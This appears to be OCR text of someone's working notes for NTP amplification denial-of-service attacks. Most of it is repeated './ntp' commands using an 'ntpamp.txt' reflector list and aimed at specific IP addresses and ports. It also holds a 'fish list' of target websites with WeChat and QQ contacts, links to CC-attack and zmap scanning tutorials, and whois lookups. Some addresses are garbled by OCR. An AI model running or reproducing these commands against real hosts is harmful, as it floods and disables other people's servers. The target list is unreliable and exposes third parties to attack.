 ./ntp 123.129.198.114 80 ntpamp.txt 1000 -1 10000

121.41.50.150

x ./ntp 106.75.30.138 80 ntpamp.txt 1000 -1 10000

./ntp 103.120.80.30 1612 ntpamp.txt 1000 -1 10000 ./ntp 8.138.86.218 80 ntpamp.txt 1000 -1 10000

./ntp 103.8.222.225 80 ntpamp.txt 1000 -1 10000 ./ntp 45.251.8.70 80 ntpamp.txt 1000 -1 10000

./ntp 103.8.222.225 80 ntpamp.txt 1000 -1 10000

./ntp 32.397 119.436 80 ntpamp.txt 1000 -1 10000

./ntp 32.397 119.436 80 ntpamp.txt 1000 -1 10000

./ntp 154.91.255.148 80 ntpamp.txt 1000 -1 10000

./ntp 8.138.86.218 80 ntpamp.txt 1000 -1 10000

./ntp 8.138.86.218 80 ntpamp.txt 1000 -1 10000

./ntp 45.195.55.51 80 ntpamp.txt 1000 -1 10000

./ntp 220.185.183.212 80 ntpamp.txt 1000 -1 10000

45.251.8.70,123.129.224.113,103.8.222.225

./ntp 123.129.226.92 80 ntpamp.txt 1000 -1 10000

103.139.1.191

www.jimeimadou.com

http://www.anxtao.com:81/index.php/Home/Public/login.html  拉黑我  微信 anxintao7788

https://www.xiaobeitian.com/member_center/index.html 两个微信

http://sj.shenren888.com/member/home  AA智选财富

http://106.75.30.138:8080/merchant/#/

https://www.shellop.com/archives/14  教程

https://www.shangjia360.com/ 导航 https://pt.shangjia360.com/ https://www.dstat.cc/l4nonprotected?id=FDCservers-1  防御姿态

cd /home;./ntp 43.141.69.245 80 /home/ntpamp.txt 2 -1 1000

https://1024.day/d/2555 cc攻击

https://www.w643.com/cydz/2020-08-19/668.html  zmap 探针

https://www.ipip.net/ip.html  查询 https://search.arin.net/rdap/?query=103.100.211.198 https://ipwhois.cnnic.cn/bns/query/Query/ipwhoisQuery.do?queryOption=ipv4&txtquery=198.12.70.119 https://tool.chinaz.com/ipWhois/?q=198.12.70.119





鱼儿列表

http://www.548wg.cn/   qq群：3226686009

http://www.jisudama.com/  qq:124627547
